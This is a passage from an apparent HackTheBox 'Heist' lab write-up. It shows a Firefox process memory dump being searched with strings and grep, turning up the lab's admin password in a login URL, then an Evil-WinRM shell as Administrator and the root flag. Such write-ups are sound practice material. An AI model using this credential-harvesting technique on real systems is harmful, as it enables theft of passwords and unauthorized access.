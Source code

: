 Now we can dump the Firefox process memory using the PID from the `Get-Process`
command:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/heist/procdump.png)

Because I'm a PowerShell noob, I've downloaded the dump on my machine to
analyze it, with `download firefox.exe_191129_053757.dmp` and after (quite) a
bit of time I started searching for strings.

An interesting string to find in the memory dump would be `password`, so let's
search for it:
```
$ strings firefox.exe_191129_053757.dmp | grep -i password
"C:\Program Files\Mozilla Firefox\firefox.exe" localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

Bingo! And we can get a shell with these credentials:
```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> Get-Acl root.txt
    Directory: C:\Users\Administrator\Desktop

Path     Owner                  Access
----     -----                  ------
root.txt BUILTIN\Administrators NT AUTHORITY\SYSTEM Allow  FullControl...
```

And we have access to the root flag!

## Wrapping up

I have to admit this one took me quite a bit of time, even though it was only 20
points, because I went down the `AppData` folder rabbit hole, and there were
some cache files and a password database that looked interesting. This is the
first time that I've analyzed a process' memory, which is an interesting
technique.

Thanks for reading!

